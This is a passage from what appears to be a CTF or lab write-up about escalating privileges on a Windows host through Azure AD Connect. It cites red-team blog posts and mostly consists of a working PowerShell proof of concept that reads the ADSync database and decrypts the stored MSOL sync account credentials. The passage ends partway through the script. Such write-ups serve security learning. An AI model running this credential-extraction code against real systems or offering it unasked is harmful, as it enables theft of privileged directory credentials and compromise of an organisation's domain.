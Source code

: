 Checking installed applications I found out that `Azure AD Connect` is installed:

![image.png](image%2013.png)

I found this [blog post](https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) related to this and trying to run the tool provided returns me error:

![image.png](image%2014.png)

It also references this [blog post](https://blog.xpnsec.com/azuread-connect-for-redteam/)

I tried running the provided code to extract `MSOL` account password but it failed:

```powershell
.\azuread_decrypt_msol.ps1
```

![image.png](image%2015.png)

I found [here](https://www.tevora.com/threat-blog/targeting-msol-accounts-to-compromise-internal-networks/) that we should change sqlconnection string, but I cannot locate `SqlLocalDb.exe`.

After a bit of searching I found this [blog post](https://www.synacktiv.com/publications/azure-ad-introduction-for-red-teamers.html) where it mentions:

**The default configuration of Azure AD Connect uses a SQL Server Express database but a fully deployed SQL Server can also be used. In that case, the connection string from the POC must be replaced by the following: `"Server=LocalHost;Database=ADSync;Trusted_Connection=True;"`.**

I changed connection string and used this code:

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
```